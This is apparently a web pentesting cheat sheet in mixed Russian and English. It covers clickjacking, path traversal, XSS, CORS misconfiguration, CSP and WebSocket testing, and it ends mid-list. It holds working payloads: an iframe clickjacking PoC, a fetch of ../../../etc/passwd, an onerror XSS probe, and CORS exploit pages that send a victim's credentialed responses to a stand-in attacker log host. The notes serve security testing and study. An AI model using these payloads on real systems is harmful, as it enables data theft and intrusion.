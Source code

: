 # Сбор информации о приложении

### Analyzing Source Code for Vulnerabilities
Load source code
Use IDE debugger to analyze
Find authorization, authentication, redirects, secrets, user input logic, pages without authentication

### Анализ заголовков

### Анализ памяти и кеша

### DFD
Через консоль или скачать приложение и добавить в код `debugger;`
Понять точки ввода и точки вывода (отображения)
Определить где проводится санитизация и валидация
    Добавить <h1></h2> теги проверить отображается
    Добавить `< : ? / "` символ проверить какие симловы преобразованы
Проверить валидация и санитизация происходит до отправки данных на сервер (те на фронте)
Если на фронте - понять как это можно обойти:
- использовать прокси для перехвата и модификации данных
- переопределить поведение функции в консоли браузера `function vulnerableFunction(){console.log(h3cker);}`
https://crunchify.com/how-to-refresh-div-content-without-reloading-page-using-jquery-and-ajax/
- переопределить поведение переменной в консоли браузера
- переопределить DOM в консоли браузера
- использовать расширения браузера (https://www.tampermonkey.net/) или написать свое

### DAST
Fuzzing

# Manual testing

### Clickjacking
Use https://portswigger.net/burp/documentation/desktop/tools/clickbandit
Или через DevTools через соседнюю вкладку сформировать новый элемент:
```js
var iframe = document.createElement('iframe');
iframe.src = 'https://target.local'; // Replace URL
iframe.style.width = '400px';
iframe.style.height = '400px';
document.body.appendChild(iframe);
```

PoC:
```html
<html>
    <head>
        <title>Clickjack test web page</title>
    </head>
    <body>
        <iframe src="https://target.local" width="400" height="400"></iframe>
    </body>
</html>
```

### Path Traversal
```js
//1. Enum path: 
urls = []
$$('*').forEach(element => {
  urls.push(element.src)
  urls.push(element.href)
  urls.push(element.url)
}); console.log(...new Set(urls)) 

// 2. Fuzz param with list YAML/LFI.txt
// 3. Exploit: 
fetch('https://site/image?filename=../../../etc/passwd').then(response => response.text()).then(data => console.log(data));"
```

### XSS
Открыть DOM Invader для поиска DOM XSS
Открыть devtools и найти Global Event Listener
    window.postMessage('TEST')
Найти точки ввода в приложении с целью поиска reflected XSS / store XSS 
    <b>blablabla</b>
    {{ 9 * 9}} 
Использовать полезные иные нагрузки https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

### CORS misconfiguration
Политика обходящая SOP. Цель дать доступ другим сайтам свои ресурсы к сайту хакера

#### Wildcard
Открыть сайт в консоли разработчика отправить легитимный запрос и скопировать его "Copy as fetch"
Открыть другой сайт в соседней вкладкке и отправить запрос fetch("https://target.site", {"headers: {}"})

#### CORS vulnerability with basic origin reflection
Получить любой ответ от сервера
Проверить наличие заголовков Access-Control-Allow-...
Вставить через прокси заголовок `Origin: https://hello.world` ИЛИ `null`
Уязвим - если в ответе появился `Access-Control-Allow-Origin: https://hello.world`
<img src="../Media/cors-vulnerability-with-basic-origin-reflection.png" alt="drawing" width="150"/>
```html
<html><body><script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
        req.withCredentials = true;
        req.send();
        function reqListener() {
            location='//malicious-website.com/log?key='+this.responseText;
        };
</script></body></html>
```
Уязвим если в дополнение к изменению поля `Origin` появляется `Access-Control-Allow-Credentials: true`
Тогда можно сделать атаку с передачей cookie 
```html
<html>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','X.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();
            function reqListener() {
                location='X.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
            };
        </script>"></iframe>
</html>
```

#### Exploiting XSS via CORS trust relationship
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

```
>>> GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-XSS-website.com
Cookie: sessionid=...

<<< HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-XSS-website.com
Access-Control-Allow-Credentials: true
```
Exploit:
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>

# CSP
Test payload for test SCP. Or use https://csp-evaluator.withgoogle.com/
Risks: XSS, Clickjacking, Injection

```js
# Basic
eval("alert('Hello World')");

# Test script-src:
var script = document.createElement('script');
script.src = 'https://ajax.googleapis.com/ajax/libs/jquery/1.11.1/jquery.min.js';
document.head.appendChild(script);

# Test img-src:
var img = document.createElement('img');
img.src = 'http://l.yimg.com/a/i/us/nws/weather/gr/30d.png';
document.body.appendChild(img);

# Test style-src:
var style = document.createElement('style');
style.innerHTML = '@import url(http://yui.yahooapis.com/pure/0.5.0/pure-min.css);';
document.head.appendChild(style);

# addEventListener
window.addEventListener('securitypolicyviolation', function(event) {
  console.log('CSP Violation:', event.message);
}, true);
```

# WebSocket
1. Intercepting and modifying WebSocket messages
{"message":"Test"} => <td>Test</td>
{"message":"<img src=1 onerror='alert(1)'>"} => alert(1) XSS

2. Manipulating the WebSocket handshake to exploit vulnerabilities
add via proxy headers: `X-Forwarded-For` `Origin` `Referer` in order to avoid \ break logic.

3. 